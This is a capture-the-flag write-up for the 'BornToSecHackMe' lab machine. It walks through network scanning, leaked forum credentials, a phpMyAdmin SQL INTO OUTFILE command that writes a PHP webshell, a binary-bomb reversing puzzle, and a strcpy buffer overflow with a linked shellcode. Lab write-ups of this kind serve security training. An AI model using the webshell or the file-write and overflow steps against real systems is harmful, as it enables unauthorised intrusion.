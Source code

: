 ## Writeup 1

After downloading and setting up the machine on VirtualBox, There isn't any visible IP address on startup like other ISOs to connect easily on SSH.
This is not a big deal, we will use nmap to scan all devices on our network and their open ports. We will not scan for all possible addresses in our network because that will take a long time. And since we already know the range of IPs we want to search for (10.13.100.0 to 10.13.100.256), we will use nmap with that range: (Otherwise we can use arp to get IPs addresses on the network then nmap to scan for open ports):

```console
nmap 10.13.100.0/24
```
![Nmap report Image](url "Nmap scan")

That will show us the open ports, we notice that a host is up with open ports for ssh, ftp, *http* and *https*. That mean we can access it via our navigator
after that we use dirbuster to fuzz all available directories in the website:

![Website Image](url "Website")

We can access to the website but still we can't do much with a simple HTML page, let's try fuzzing directories with *dirb* to see if we can find any useful directory.
```console
dirb https://10.13.100.x
```

we find a /forum + other directories we will get to later
after scanning the posts in the forum, we find a thread from lmezard where there is a bunch of logs and errors, after a quick scan we can find a leaked pw : **!q\]Ej?\*5K5cy\*AJ**
we log in with lmezard:!q\]Ej?\*5K5cy\*AJ and we don't find anything that's interesting.
Our last command with dirb found a https:://10.13.100.x/webmail/ , now let's go back to the forum and get lmezard email then log with it using the same passowrd.
we will find identifiers to the database phpmyadmin **root/Fg-'kKXBj87E:aJ$**
https:://10.13.100.x/phpmyadmin/ was also a directory found, let's log into it using those credentials:
Let's try injecting a simple PHP webshell using sql:
```sql
SELECT "<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><?php if($_GET['cmd']) {​​system($_GET['cmd']);}​​ ?> </pre></BODY></HTML>"

INTO OUTFILE '/var/www/html/forum/templates_c/cmd.php'
```
After some trial and error, all directories found with dirb are non-writable and will return an error except https://10.13.100.x/forum/templates_c/

Cool, now we can access the webshell https://10.13.100.x/forum/templates_c/cmd.php and try simple commands.

now if we see what's inside /home we'll see a file called LOOKATME that contains : **lmezard:G!@M6f4Eatau{sF"**
this isn't working in ssh but first when we ran Nmap we saw a port 21 open for ftp. We can connect to it from our machine.
```console
ftp 10.13.100.x
Name > lmezard
Password > G!@M6f4Eatau{sF"
```
we got in, let's try ls command, it doesn't work let's try passive mode
```console
ftp > pass
ftp > ls
150 Here comes the directory listing.
-rwxr-x--- 1 1001 1001 96 Oct 15 2015 README
-rwxr-x--- 1 1001 1001 808960 Oct 08 2015 fun
226 Directory send OK.
```

we use mget to get the files to our working directory
```
mget README fun
```

```
cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

When we inspect the "fun" file, It's a c program with a bunch of comments and printfs of "Hahahaha Got you!!!\n", this is the main function:
```c
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```

if we try looking for getme() functions we will only find from getme8() to getme12(), the others are missing, now we the end of password and that is:

? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; w &nbsp; n &nbsp; a &nbsp; g &nbsp; e

now if we search for "return" we will find some commented returns those are the 7 characters left: h p e a I r t

If we assume the I is the first letter since it's uppercase + the last word will most likely be pwnage we will be left with the characters: h e a r t

I &nbsp; h &nbsp; e &nbsp; a &nbsp; r &nbsp; t &nbsp; p &nbsp; w &nbsp; n &nbsp; a &nbsp; g &nbsp; e

let's trying hashing the following password and let's try ssh to laurie;

sha256(Iheartpwnage) = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

ssh laurie@192.168.188.140
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

IT WORKED!!

<h2>Bomb:</h2><br/>

Readme:
```
	laurie@BornToSecHackMe:~$ cat README
	Diffuse this bomb!
	When you have all the password use it as "thor" user with ssh.

	HINT:
	P
	 2
	 b

	o
	4

	NO SPACE IN THE PASSWORD (password is case sensitive).
```
<br/>
1) The function phase_1 compare the line with a string predefined.

<img src="./img/phase_1.png">

> Public speaking is very easy.<br/>

2) The function phase_2 expect us to write factorial 1 to 6.

<img src="./img/phase_2.png" width="40%" height="40%">

> 1 2 6 24 120 720 <br/>

3) The function phase_3 have multiple choices:

<img src="./img/phase_3.png" width="30%" height="30%"><br/>

We already know from the readme that the 2nd param should be a 'b', that left us with 3 possible answers,<br/>after defusing the bomb we found that the right answer is:

> 1 b 214<br/>

4) The function phase_4 use Fibonacci number:<br/>

<img src="./img/phase_4.png" width="300px" height="300px"><img src="./img/phase_4_1.png" width="300px" height="300px"><br/>

But the way its implemented we need to use f(n+1) not f(n), so to get Fibonacci(10)=55 we need to pass 9.

> 9 <br/>

5) This function takes an str that is exactly 6 characters long then creates a new str that's filled with the following line:

*newstr[i] = (&array.123)[(char)(*(byte *)(i + line) & 15)]*

And in the end it checks if newstr equals to "giants". array123 is an array that contains the following characters : *array123="isrveawhobpnutfg"*.
Now all we have to do is look for the index of each character in "giants" in array123 and perform the logical & operation with 0xf on that;

newstr[0] = 0x6f & 0xf = 0xf or 15 (15 here is the index of 'g' in array123;

newstr[1] = 0x70 & 0xf = 0x0 or 0 (0 here is the index of 'i' in array123;

newstr[2] = 0x65 & 0xf = 0x5 or 5 (5 here is the index of 'a' in array123;

newstr[3] = 0x6b & 0xf = 0xb or 11 (11 here is the index of 'n' in array123;

newstr[4] = 0x6d & 0xf = 0xd or 13 (13 here is the index of 't' in array123;

newstr[5] = 0x71 & 0xf = 0x1 or 1 (1 here is the index of 's' in array123;

We will end up with **newstr = "opekmq"**

<img src="./img/phase_5.png" width="40%" height="40%"><br/>

 NB: There are so many different answers that will pass this level but this is the one that works with the password at the end;

6) The Function phase_6 use the input to sort 6 nodes, and then see if they are sorted in ascending order.<br/>
![](./img/phase_6_nodes_mem.png)
```
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekma
4 2 6 3 1 5
```
> thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135 [BUG IN THE SUBJECT](https://stackoverflow.com/c/42network/questions/664/1628?r=SearchResults&s=1%7C12.5313#1628)

We found a file named Turtle containing line like this:
```
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
```
that look like turtle logo algorithme, by changing those french word with actual instructions we got the password for zaz.
```
lt 90
fd 50
fd 1
lt 1
```
[TURTLE LINK](https://www.transum.org/Software/Logo/Level2/Default.asp?Level=3)

<img src="./img/turtle_1.png"  width="200" height="200">
<img src="./img/turtle_2.png"  width="200" height="200">
<img src="./img/turtle_3.png"  width="200" height="200">
<img src="./img/turtle_4.png"  width="200" height="200">
<img src="./img/turtle_5.png"  width="200" height="200">

MD5 Hash of SLASH = 646da671ca01bb5d84dbb5fb2238dc8e

> zaz:646da671ca01bb5d84dbb5fb2238dc8e

We found an executable file named exploit_me, so we exploit it.
the program copy av[1] into a local variable using strcpy"NON SECURE" and then prints it using puts(&var), so we have a buffer overflow.<br/>
<img src="./img/exme_disass.png" width="60%" height=60%>

Now we have to find the lenght needed to overwrite the return address.<br/>
<img src="./img/exme_payload_len.png" width="60%" height=60%>

Test the lenght:<br/>
<img src="./img/exme_payload_test.png" width="60%" height=60%>
<img src="./img/exme_payload_test2.png" width="60%" height=60%>

Now we need to inject a [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.php) and redirect to it:<br/>
<img src="./img/exme_payload_findaddr.png" width="60%" height=60%>
<img src="./img/exme_payload_shell.png" width="60%" height=60%>





